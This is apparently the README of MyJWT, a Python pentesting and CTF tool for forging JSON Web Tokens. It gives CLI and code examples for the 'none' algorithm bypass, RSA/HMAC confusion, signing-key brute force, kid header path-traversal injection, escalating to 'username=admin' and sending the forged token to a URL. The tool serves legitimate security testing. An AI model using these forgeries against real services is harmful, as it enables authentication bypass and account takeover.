

# MyJWT
[](https://circleci.com/gh/mBouamama/MyJWT.svg?style=shield)
[](https://pypi.org/project/myjwt/)
[](https://pypi.org/project/myjwt/)
[](https://github.com/mBouamama/MyJWT/releases)
[](https://codecov.io/gh/mBouamama/MyJWT)
[](https://codebeat.co/projects/github-com-mbouamama-myjwt-master)
[](https://snyk.io/test/github/mBouamama/MyJWT?targetFile=requirements.txt)
# Introduction
This cli is for pentesters, CTF players, or dev.<br>
You can modify your jwt, sign, inject ,etc...<br>
Check [Documentation](#usage) for more information.<br>
If you see problems or enhancement send an issue.I will responds as soon as possible.
Enjoy :)
# Table of Contents
- [Features](#features)
- [Installation](#installation)
- [Usage](#usage)
- [Examples](#examples)
- [Download](#download)
- [Contribute](#contribute)
# Features
- modify jwt (header/Payload)
- None Vulnerability
- RSA/HMAC confusion
- Sign a jwt with key
- Brute Force to guess key
- kid injection

# Installation
To install myjwt, simply use pip:
```
pip install myjwt
```
To run mywt from a docker image, run:
```
docker run -v $(pwd)/wordlist:/wordlist/ -it ghcr.io/mBouamama/MyJWT myjwt
```
To install myjwt, on git:
```
git clone https://github.com/mBouamama/MyJWT.git
cd ./MyJWT
pip install -r requirements.txt
python myjwt_cli.py --help
```
# Usage

# Examples
- [Modify Your jwt](#modify-your-jwt)
- [None Vulnerabilty Check](#none-vulnerability)
- [Brute Force Signature](#brute-force)
- [RSA/HMAC Confusion](#rsahmac-confusion)
- [Kid Injection](#kid-injection)
- [Send your new Jwt to url](#send-your-new-jwt-to-url)
## Modify your Jwt
### CLI
```
myjwt YOUR_JWT --add-payload "username=admin" --add-header "refresh=false"
```
### Code
```
from MyJWT.modifyJWT import addpayload, addheader, changePayload
from MyJWT.utils import jwtToJson, SIGNATURE, encodeJwt

jwtJson = jwtToJson(jwt)
jwtJson = addheader(jwtJson, {"kid": "001"})
jwtJson = changePayload(jwtJson, {"username": "admin"})
jwt = encodeJwt(jwtJson) + "." + jwtJson[SIGNATURE]
```
Full example here: [01-modify-jwt](./examples/01-modify-jwt/main.py)
## None Vulnerability
### CLI
```
myjwt YOUR_JWT --none-vulnerability
```
### CODE
```
from MyJWT.utils import jwtToJson, SIGNATURE
from MyJWT.vulnerabilities import noneVulnerability
jwtJson = jwtToJson(jwt)
jwt = noneVulnerability(encodeJwt(jwtJson) + "." + jwtJson[SIGNATURE])
```
Full example here: [02-none-vulnerability](./examples/02-none-vulnerability/main.py)
## Sign Key
### CLI
```
myjwt YOUR_JWT --sign YOUR_KEY
```
### CODE
```
from MyJWT.modifyJWT import signature
from MyJWT.utils import jwtToJson
key = "test"
jwt = signature(jwtToJson(jwt), key)
```
Full example here: [03-sign-key](./examples/03-sign-key/main.py)
## Brute Force
### CLI
```
myjwt YOUR_JWT --bruteforce PATH
```
### CODE
```
from MyJWT.vulnerabilities import bruteforceDict
wordlist = "../../wordlist/common_pass.txt"
key = bruteforceDict(jwt, wordlist)
```
Full example here: [04-brute-force](./examples/04-brute-force/main.py)
## RSA/HMAC Confusion
### CLI
```
myjwt YOUR_JWT --hmac FILE
```
### CODE
```
from MyJWT.vulnerabilities import confusionRsaHmac
file = "public.pem"
jwt = confusionRsaHmac(jwt, file)
```
Full example here: [05-rsa-hmac-confusion](./examples/05-rsa-hmac-confusion/main.py)
## Kid Injection
### CLI
```
myjwt YOUR_JWT --kid INJECTION
```
### Code
```
from MyJWT.modifyJWT import signature
from MyJWT.utils import jwtToJson
from MyJWT.vulnerabilities import injectSqlKid

injection = "../../../../../../dev/null"
sign = ""
jwt = injectSqlKid(jwt, injection)
jwt = signature(jwtToJson(jwt), sign)
```
Full example here: [06-kid-injection](./examples/06-kid-injection/main.py)

## Send your new Jwt to url

### CLI
```
myjwt YOUR_JSON -u YOUR_URL -c "jwt=MY_JWT" --non-vulnerability --add-payload "username=admin"
```
# Download
Check github releases. Latest is available at https://github.com/mBouamama/MyJWT/releases/latest
# Contribute
```
#TODO
```
